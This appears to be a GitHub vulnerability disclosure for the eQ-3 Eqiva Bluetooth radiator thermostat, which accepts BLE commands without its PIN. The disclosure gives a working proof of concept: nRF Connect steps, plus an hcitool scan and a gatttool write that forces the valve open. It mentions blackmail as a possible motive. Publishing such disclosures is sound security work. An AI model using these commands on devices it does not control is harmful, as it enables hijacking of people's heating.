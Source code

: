 # Security leak in smart home thermostat eQ-3 Eqiva Bluetooth

[Beschreibung in Deutsch](Readme.md)

The [eQ-3 Eqiva](http://www.eq-3.de/produkte/eqiva/bluetooth-smart-heizkoerperthermostat.html) is a smart home thermostat for radiators with an integrated Bluetooth LE interface. The manufacture recommends the following app to control the thermostat using a smartphone: [Calor BT](https://play.google.com/store/apps/details?id=de.eq3.ble.android&hl=de).

When using the app to connect to the thermostat a 4 digit PIN code which has to be read from the thermostat must be entered. This is an important security feature to only allow persons that have physical access to the thermostat to control it remotely.

Surprisingly this PIN code is not necessary when sending Bluetooth LE commands directly to the thermostat using the corresponding tools (an Android smartphone is sufficient, see below). **This means that anyone within the Bluetooth LE range of around 40m can control and therefore hijack the thermostat.**

Attack reasons reach from the sole purpose of changing the settings to blackmailing where the radiator is turned off until a certain amount of money has been paid.

**At the moment it has to be advised to turn the Bluetooth feature off completely within the thermostat settings.**

## Android

### 1\. Install nRF Connect

<https://play.google.com/store/apps/details?id=no.nordicsemi.android.mcp&hl=de>

### 2\. Connect with the thermostat

![01-nrf-connect](/img/01-nrf-connect.png)

### 3\. Select BLE Characteristic

![02-nrf-connect](/img/02-nrf-connect.png)

### 4\. Activate boost mode (Fully open the valve)

![03-nrf-connect](/img/03-nrf-connect.png)

## Linux (tested with Raspberry Pi 3 and Raspbian)

### 1\. Scan for BLE devices

`hcitool lescan`

![HCI Tool Scan Example](/img/01-hcitool-scan.png)

Device with name "CC-RT-BLE" is the thermostat.

### 2\. Activate boost mode (Fully open the valve)

`gatttool -b 00:1A:22:09:DA:10 --char-write-req --handle=0x0411 --value=4501`

_Change MAC address accordingly._

## Further information:

- [eq-3 Eqiva API Documentation by Heckie75 at Github](https://github.com/Heckie75/eQ-3-radiator-thermostat/blob/master/eq-3-radiator-thermostat-api.md)

